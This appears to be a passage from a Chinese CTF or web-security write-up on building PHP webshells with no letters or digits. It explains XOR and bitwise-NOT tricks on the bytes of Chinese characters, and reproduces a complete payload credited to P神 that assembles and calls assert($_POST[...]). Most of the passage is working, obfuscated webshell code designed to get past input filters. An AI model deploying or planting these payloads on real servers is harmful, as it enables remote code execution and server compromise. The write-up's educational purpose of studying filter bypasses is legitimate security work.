```
echo $result2;

function judge($c)
{
    if(!preg_match('/[a-z0-9]/is',$c))
    {
        return true;
    }
    return false;
}
```

得到可以异或得到我们想要的字符的两个字符串。

```
<?php
$_ = "!((%)("^"@[[@[\\";   //构造出assert
$__ = "!+/(("^"~{`{|";   //构造出_POST
$___ = $$__;   //$___ = $_POST
$_($___[_]);   //assert($_POST[_]);
```

#### 解法二：取反

原理： **求反运算符～为单目运算符，具有右结合性。其功能是对参与运算的数的各二进位按位求反。
负数用十六进制表示，通常用的是补码的方式表示。负数的补码是它本身的值每位求反,最后再加一**

利用的是UTF-8编码的某个汉字，并将其中某个字符取出来。

参考[p神文章](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html#)，

拿`和`字来说

```
<?php
$_="瞰";
$a = ~($_{1});  // a
$b = ~($_{2});  // O
echo $a.'<br/>'.$b;
```

![wP3wh8.png](https://s1.ax1x.com/2020/09/03/wP3wh8.png)

```
"和" 的第三个字节的值为 140[0x8c]，取反的值为 -141
'和'{2}的结果是"\x8c"，其取反即为字母s：
```

附上ph师傅的payload:

```
<?php
$__=('>'>'<')+('>'>'<');    //$__2
$_=$__/$__;                 //$_1
 
$____='';
$___="瞰";$____.=~($___{$_});$___="和";$____.=~($___{$__});$___="和";$____.=~($___{$__});$___="的";$____.=~($___{$_});$___="半";$____.=~($___{$_});$___="始";$____.=~($___{$__});       //$____=assert
 
$_____='_';$___="俯";$_____.=~($___{$__});$___="瞰";$_____.=~($___{$__});$___="次";$_____.=~($___{$_});$___="站";$_____.=~($___{$_});     //$_____=_POST 
 
$_=$$_____;        //$_=$_POST
$____($_[$__]);    //assert($_POST[2])
?>

```
